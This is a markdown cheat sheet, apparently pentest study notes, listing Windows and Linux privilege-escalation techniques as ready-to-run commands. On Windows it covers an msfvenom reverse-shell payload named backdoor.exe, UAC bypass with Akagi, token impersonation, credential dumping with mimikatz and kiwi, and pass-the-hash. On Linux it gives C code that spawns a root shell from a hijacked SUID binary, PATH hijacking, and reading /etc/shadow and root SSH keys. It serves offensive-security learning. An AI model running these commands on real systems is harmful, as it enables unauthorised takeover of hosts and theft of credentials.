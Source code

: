 # $\color{#009466}\textbf{Windows}$


Note: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM
<br>

<details>
<summary>$\huge{\text{Automation script}}$</summary>

- https://github.com/itm4n/PrivescCheck : useful for gather information
- `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"` : run from command prompt

<br><br>  
</details>

<details>
<summary>$\huge{\text{UAC Bypass}}$</summary>
 
- User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
- Prerequisites:
  1.  User must be a member of the Administrators group.
     - `net localgroup administrators`
  2. Full interactive shell with the victim (a common nc.exe shell is not enough).
     - You can use meterpreter
- Metasploit
  - search module bypassuac ...
- UACME
  1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
     - `ps` to show process 
     - (ex. `migrate <PID explorer.exe>`)
  3. Upload Akagi (Akagi64.exe if x64)
  3. Create payload with msfvenom
     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
  5. Use exploit/multi/handler to start a listener
  6. `Akagi64.exe 23 <payload_full_path>`
     - **NOTE FULL PATH**
  7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs

<br><br>
</details>

<details>
<summary>$\huge{\text{Impersonate Tokens}}$</summary>
  
- With msfconsole: `load incognito`
- `list_tokens -u`
  - ```
     Delegation Tokens Available
     ========================================
     ATTACKDEFENSE\Administrator
     NT AUTHORITY\LOCAL SERVICE
     
     Impersonation Tokens Available
     ========================================
     No tokens available
    ```
- `impersonate_token <token_name>`
  - `impersonate_token ATTACKDEFENSE\\Administrator` **NOTE: the two backslashes**
- You may need to migrate process to a \<user> process
  - Ex. `getpid` : 2628, `ps` :
    |PID  | PPID | Name | Arch | Session | User | Path|
    | ---  | --- | --- | ---  | --- | --- | --- |
    |2628 | 4780 | WHAYQtsbkO.exe |  | 1 | | |
    |... | ... | ... | ... | ... | ... | ... |
    |2948 | 2036 | explorer.exe | X64 | 1 | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
- `getpid` : 2948
- Of course you can repeat the process to become NT AUTHORITY\SYSTEM

<br><br>
</details>

<details>
<summary>$\huge{\text{Password in configuration file (Unattend.xml)}}$</summary>

- An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
- ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
- Extract password and decode it (from base64)

<br><br>     
</details>

<details>
<summary>$\huge{\text{Credential Dumping (Mimikatz - Kiwi - Hashdump)}}$</summary>
    
- Prerequisites: User must be a member a local Administrators.
1) Method (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `hashdump`
2) Kiwi (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `load kiwi`
   - `creds_all` Retrieve all credentials (parsed)
   - `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   - To find the clear text passwords : `lsa_dump_secrets`
     - However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3) Mimikatz
   - upload mimikatz.exe
   - `\mimkatz.exe`
   - `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   - `lsadump::sam` : NTLM hashes for all of the user accounts on the system 
   - `sekurlsa::logonpasswords` : To find the clear text passwords, but it's not always possible

<br><br>
</details>

<details>
<summary>$\huge{\text{Pass the Hash}}$</summary>

Useful for persinstence...
1) `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2) Metasploit : windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   - empty LM hash : `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     - `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   - With `hashdump` you have the right format

<br><br>
</details>

<details>
<summary>$\huge{\text{Other}}$</summary>

- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software

<br><br>
</details>


# $\color{#009466}\textbf{Linux}$

<details>
<summary>$\huge{\text{Vulnerable program}}$</summary>

- Search scripts that execute programs or programs. : Search for any vulnerable version. One example: chkrootkit v0.49 (running as root)
  - `ps aux`

<br><br>
</details>

<details>
<summary>$\huge{\text{Weak Permissions}}$</summary>
  
- `find / -not -type l -perm -o+w ` : world-writable files
  - Example: maybe you can edit shadow file...

<br><br>
</details>

<details>
<summary>$\huge{\text{Sudo}}$</summary>
  
- `sudo -l`
  - search on gtfobins how to exploit

<br><br>
</details>

<details>
<summary>$\huge{\text{SUID - custom binary}}$</summary>
  
- Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`
- Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime
  - `strings binary_name`
1. Method
   - `cp /bin/bash /path/to/loaded_binary`
2. Method
- Delete the loaded binary and replace with a new one:
- ```
  #include <stdio.h>
  #include <stdlib.h>
  
  int main() {
      system("/bin/bash -i"); 
      return 0;
  }
  ```
- `gcc binary.c -o <loaded_binary>` : compile
- `./binary_name` : run the binary


<br><br>
</details>

<details>
<summary>$\huge{\text{Other}}$</summary>

- `sudo -l`
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)

<br><br>
</details>

# Resource
- **juggernaut-sec.com/blog/** Windows/Linux privesc and active directory hacking
- **gtfobins.github.io** *GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems*
- **github.com/carlospolop/PEASS-ng/tree/master/linPEAS** *Linux Privilege Escalation Awesome Script*
- **github.com/DominicBreuker/pspy** *Monitor linux processes without root permissions*
- **github.com/gtworek/Priv2Admin** *Windows Privileges with Windows OS privileges*

